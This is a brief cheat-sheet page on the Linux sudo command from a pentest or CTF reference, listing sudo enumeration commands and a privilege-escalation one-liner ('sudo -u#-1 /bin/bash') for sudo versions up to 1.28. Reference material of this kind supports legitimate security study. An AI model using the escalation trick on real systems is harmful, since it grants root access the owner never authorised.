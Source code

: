 ```yaml
---
title: Sudo
desc: Linux command to execute any commands as privileges.
tags: [Linux, PrivEsc, SUID]
alts: []
website:
---
```


## List of privilege commands for current user

```sh
sudo -l

# Specify the hostname e.g. 'host-name'
sudo -h host-name -l

# Execute via the hostname e.g. 'host-name'
sudo -h host-name /bin/bash
```

<br />

## Privilege Escalation

```sh
# version <= 1.28
sudo -u#-1 /bin/bash
```

<br />

## Misc

```sh
# If you owns the privileges `su` command, you can switch to root user
sudo su root

# Run as other user named 'bob'
sudo -u bob whoami
```